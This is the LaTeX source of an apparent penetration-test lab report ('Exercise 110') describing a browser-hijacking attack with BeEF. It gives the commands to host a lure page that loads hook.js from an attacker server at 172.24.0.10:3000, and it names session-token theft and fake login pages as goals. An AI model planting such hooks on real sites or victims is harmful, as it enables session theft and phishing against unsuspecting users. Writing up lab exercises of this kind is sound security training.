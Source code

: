 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test - Exercise 110}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}



  \subsection{Finding: \emph{Descriptive Name}}
  	\subsubsection*{Severity Rating}
	Severity Risk: Low \\
    \cvss(L,H,L,R,U,L,N,N,2.2)
		
  	\subsubsection*{Vulnerability Description}
        Using social engineering, we know to expect a user to hit a page we are hosting. Using BeEF (Browser Exploitation Framework), we are able to capture
        the users browser and get sensitive information such as session tokens as well as use other possible social engineering attacks such as fake email login pages.

  	\subsubsection*{Confirmation method}
  	We must first create on our server with the URL \textbf{/coins/collection.html} and add a script to the page that hooks it to BeEF. This requires us to make a new directory,
    create a new page, add a script to the page, and then start or restart the apache server.
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
In HTML:
    <script src='http://172.24.0.10:3000/hook.js'></script>
sudo service apache2 start
\end{verbatim}
    We can then navigate to the beef directory and start it up as follows:
\begin{verbatim}
./beef
xdg-open http://172.24.0.10:3000/ui/panel
\end{verbatim}
    Then, use the credentials found in the config.yaml in the beef directory to log in and wait. After some time, a new Windows user will appear and thus the attack is complete.
\end{document}
